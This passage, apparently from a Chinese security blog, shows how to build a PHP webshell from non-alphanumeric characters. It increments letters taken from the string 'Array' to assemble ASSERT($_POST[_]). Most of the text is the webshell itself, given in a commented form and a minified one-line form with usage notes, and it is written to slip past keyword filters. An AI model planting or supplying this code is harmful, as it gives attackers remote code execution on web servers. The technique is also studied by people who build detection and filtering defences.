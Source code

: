 利用这个技巧，我编写了如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是`ASSERT($_POST[_])`，无需获取小写a）：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

缩减后即，使用时需要进行一次URL编码，shell为`_`

```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```
